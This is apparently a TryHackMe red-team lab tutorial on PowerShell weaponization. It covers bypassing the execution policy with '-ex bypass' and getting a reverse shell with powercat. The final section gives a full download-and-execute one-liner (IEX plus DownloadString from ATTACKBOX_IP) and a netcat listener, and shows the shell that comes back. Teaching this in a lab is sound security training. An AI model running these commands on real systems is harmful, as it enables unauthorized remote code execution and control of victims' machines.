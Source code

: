 ## PowerShell (PSH)

PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses. Check out the TryHackMe room, Hacking with PowerShell for more information about PowerShell.

Red teamers rely on PowerShell in performing various activities, including initial access, system enumerations, and many others. Let's start by creating a straightforward PowerShell script that prints "Welcome to the Weaponization Room!" as follows:

```powershell
Write-Output "Welcome to the Weaponization Room!"
```

Save the file as `thm.ps1`. With the `Write-Output`, we print the message "Welcome to the Weaponization Room!" to the command prompt. Now let's run it and see the result.

### CMD

```cmd
C:\Users\thm\Desktop>powershell -File thm.ps1
```

Output:

```cmd
File C:\Users\thm\Desktop\thm.ps1 cannot be loaded because running scripts is disabled on this system. For more
information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
    + CategoryInfo          : SecurityError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : UnauthorizedAccess
```

## Execution Policy

PowerShell's execution policy is a security option to protect the system from running malicious scripts. By default, Microsoft disables executing PowerShell scripts `.ps1` for security purposes. The PowerShell execution policy is set to `Restricted`, which means it permits individual commands but does not run any scripts.

You can determine the current PowerShell setting of your Windows as follows:

```cmd
PS C:\Users\thm> Get-ExecutionPolicy
Restricted
```

We can also easily change the PowerShell execution policy by running:

```cmd
PS C:\Users\thm\Desktop> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```

Execution Policy Change:

```cmd
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes [A] Yes to All [N] No [L] No to All [S] Suspend [?] Help (default is "N"): A
```

## Bypass Execution Policy

Microsoft provides ways to disable this restriction. One of these ways is by giving an argument option to the PowerShell command to change it to your desired setting. For example, we can change it to bypass policy, which means nothing is blocked or restricted. This is useful since it lets us run our own PowerShell scripts.

In order to make sure our PowerShell file gets executed, we need to provide the bypass option in the arguments as follows:

```cmd
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
```

Output:

```cmd
Welcome to Weaponization Room!
```

## Reverse Shell with Powercat

Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is `powercat`. On your AttackBox, download it from GitHub and run a webserver to deliver the payload.

### Terminal

```bash
user@machine$ git clone https://github.com/besimorhino/powercat.git
```

Output:

```bash
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.
```

Now, we need to set up a web server on that AttackBox to serve the `powercat.ps1` that will be downloaded and executed on the target machine. Next, change the directory to `powercat` and start listening on a port of your choice. In our case, we will be using port 8080.

```bash
user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
```

Output:

```bash
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

On the AttackBox, we need to listen on port `1337` using `nc` to receive the connection back from the victim.

```bash
user@machine$ nc -lvp 1337
```

Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows:

```cmd
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

Now that we have executed the command above, the victim machine downloads the `powercat.ps1` payload from our web server (on the AttackBox) and then executes it locally on the target using `cmd.exe` and sends a connection back to the AttackBox that is listening on port `1337`. After a couple of seconds, we should receive the connection callback:

```bash
user@machine$ nc -lvp 1337  listening on [any] 1337 ...
10.10.12.53: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.12.53] 49804
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>